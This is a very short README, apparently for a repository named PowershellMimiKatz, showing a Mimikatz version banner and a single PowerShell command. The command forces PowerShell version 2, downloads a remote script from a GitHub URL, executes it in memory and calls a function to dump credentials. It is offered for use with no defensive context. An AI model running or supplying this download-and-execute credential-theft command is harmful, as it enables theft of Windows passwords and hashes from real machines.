 # PowershellMimiKatz
Mimikatz 2.1.1 built on Aug 15 2018 13:42:01 ** Vegas Edition **

powershell -version 2 "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/analyticsearch/PowershellMimiKatz/master/Invoke-Adios.ps1');Invoke-Adios -AdiosCreds
